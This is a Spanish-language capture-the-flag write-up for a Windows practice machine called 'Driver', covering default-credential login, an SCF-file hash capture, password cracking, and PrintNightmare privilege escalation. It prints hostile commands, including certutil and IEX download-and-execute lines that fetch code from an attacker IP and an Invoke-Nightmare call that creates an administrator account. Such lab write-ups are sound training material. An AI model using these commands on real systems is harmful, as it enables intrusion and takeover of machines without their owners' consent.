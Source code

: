 # Driver

**Sistema Operativo**: Windows

**Dificultad**: Fácil

**Técnicas Vistas**: Password Guessing /
SCF Malicious File /
Print Spooler Local Privilege Escalation (PrintNightmare) [CVE-2021-1675]

Te prepara para las **Certificaciones**: OSCP (Escalada) eJPT<br><br>


![image](https://github.com/user-attachments/assets/0b12302c-9e2d-49ac-af3d-9a836373b8eb)<br><br>

# Reconocimiento

Utilizando `nmap` vemos los puertos abiertos

![Image](https://github.com/user-attachments/assets/6b0499bb-3506-476d-875b-c53146d7882d)<br><br>

Nos va a pedir autenticarnos, simplemente ponemos `admin` de usuario y `admin` de contraseña.

![Image](https://github.com/user-attachments/assets/c8b1dd7e-f85a-45ea-a386-753d5d71e7e1)<br><br>

#  Explotación (archivo .scf malicius)

Creamos un `file.scf` dentro le ponemos nuestra IP, y el smbFolder... Luego interceptamos paquetes SMB `impacket-smbserver smbFolder $(pwd) -smb2support` y obtenemos el usuario "tony" con el hash para crackear.

https://nored0x.github.io/red-teaming/smb-share-scf-file-attacks/

![Image](https://github.com/user-attachments/assets/e48469bb-8feb-4468-bc56-1715a50241e5)<br><br>


Creamos un `hash` que contenga el usuario y el hash de "tony", y lo crackeamos con `john`

![Image](https://github.com/user-attachments/assets/55385be7-b633-494e-983a-c7d5ce101f67)<br><br>


Si pone un `Pwn3d!` Es que el usuario `tony` esta dentro del grupo `Remote Management Users`

![Image](https://github.com/user-attachments/assets/33581bfd-6a88-456a-811c-379b2a75cd04)<br><br>

Estamos dentro

![Image](https://github.com/user-attachments/assets/80789075-134b-4070-9cae-0cfb6699d163)<br><br>

# Escalada de privilegios (Spoolsv)

##### winPeas.exe

https://github.com/peass-ng/PEASS-ng/releases/tag/20240728-0f010225

Descargamos `winPEASx64.exe`

`python3 -m http.server 80` -> Compartimos el binario.

`certutil.exe -f -urlcache -Split http://10.10.10.10/winPEASx64.exe winPEASx64.exe` -> Lo descargamos en la maquina victima.

`.\winPEASx64.exe` ->  Ejecutamos


Con `winPEASx64.exe` vemos que esta el `spoolsv`

![Image](https://github.com/user-attachments/assets/ce571d55-1b07-4ccd-98f4-84be2bc9f513)<br><br>

spoolsv exploit github -> https://github.com/calebstewart/CVE-2021-1675

`wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/refs/heads/main/CVE-2021-1675.ps1` -> Descargamos

`mv CVE-2021-1675.ps1 spool.ps1` -> Cambiamos el nombre

`python3 -m http.server 80` -> Compartimos el spool.ps1

`IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10/spool.ps1')` -> maquina victima (ejecutamos el script spool.ps1)

`Invoke-Nightmare -DriverName "Xerox" -NewUser "santiago" -NewPassword "santiago123" ` -> maquina victima. (creamos nuevo usuario)

`evil-winrm -i 10.10.11.106 -u 'santiago' -p 'santiago123' ` -> Ya soy administrador.

![Image](https://github.com/user-attachments/assets/53c81ef3-87a4-4971-b606-b9ec850b82ba)
